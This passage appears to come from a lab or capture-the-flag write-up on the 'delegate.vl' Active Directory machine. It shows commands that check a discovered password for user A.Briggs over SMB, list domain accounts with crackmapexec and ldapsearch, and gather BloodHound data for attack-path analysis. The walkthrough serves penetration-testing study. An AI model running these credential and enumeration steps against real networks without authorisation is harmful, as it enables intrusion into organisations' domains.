 ```bash
```

Looks like to be `A.Briggs` password. We can confirm trying to authenticate to SMB:
```bash
> crackmapexec smb delegate.vl -u 'A.Briggs' -p '<redacted>'          
SMB         DC1.delegate.vl 445    DC1              [*] Windows 10.0 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)
SMB         DC1.delegate.vl 445    DC1              [+] delegate.vl\A.Briggs:<redacted>
```

With valid credentials we can get a full list of the domain accounts:
```bash
# Via crackmapexec
> crackmapexec smb delegate.vl -u 'A.Briggs' -p '<redacted>' --users

# Via Ldapsearch
> ldapsearch -x -H ldap://delegate.vl  -D 'A.Briggs@delegate.vl' -w '<redacted>' -b 'DC=delegate,DC=vl' "(objectClass=user)" "*" | grep sAMAccountName | cut -d " " -f 2
Administrator
Guest
DC1$
krbtgt
A.Briggs
b.Brown
R.Cooper
J.Roberts
N.Thompson
```
Nothing new compared to impacket-lookupsid output.

## Bloodhound
Bloodhound is the next thing we can do to get a better understanding of the environment and the compromised user rights:
```bash
# Via Netexec
> nxc ldap delegate.vl -u 'A.Briggs' -p '<redacted>' --bloodhound -ns 10.10.88.149 --collection All

# Via Bloodhound-python
> bloodhound-python -d delegate.vl -v --zip -c All -dc DC1.delegate.vl -ns 10.10.88.149 -u 'A.Briggs' -p '<redacted>'
```
We import the Bloodhound data, mark the user `A.Briggs` as owned and start analysing the attack path.
![](imgs/img01.png)